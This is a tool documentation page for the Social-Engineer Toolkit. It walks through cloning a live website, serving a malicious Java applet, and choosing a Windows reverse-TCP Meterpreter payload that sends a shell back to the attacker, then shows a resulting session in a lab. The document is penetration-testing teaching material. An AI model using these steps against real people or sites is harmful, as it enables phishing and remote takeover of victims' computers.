

The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through 
social engineering. SET uses advanced attack techniques and has been featured in many books.

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./set`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:
    
       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About
       
       99) Exit the Social-Engineer Toolkit
       
    set>

For its incredible power SET is extremely simple to use. No need to 
memorize commands, since SET presents the user with a series of 
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

Select `Website Attack Vectors` in the current menu (item #2).

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`. 
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

Now we can take a look at how we want to build this website.  Our options
are to choose to use existing web templaes or clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #2 for now, which is the `Windows Reverse_TCP Meterpreter` payload.

       2) Windows Reverse_TCP Meterpreter       Spawn a meterpreter shell on the victim and send it back to the attacker

`set:payloads>` **`2`**

SET gives many options for encoding and obfuscation.  Encoding can be 
useful in circumstances when certain characters are not allowed.
However, many people mistakenly believe encoding is meant to bypass 
Anti-Virus software.  There was a time when a side-effect of encoding 
was that AV would not detect a malicious payload, however today encoding
will _cause_ AV to flag a payload just as often as not.  So for now, 
let's go with option `16) No Encoding`.  

`set:encoding>` **`16`**

Finally, we come to the port of the listener.  Ensure that the
firewall is disabled, and for now **please use the defaults!**

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l
     
    Active sessions
    ===============
     
      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post 
modules, and exploits.

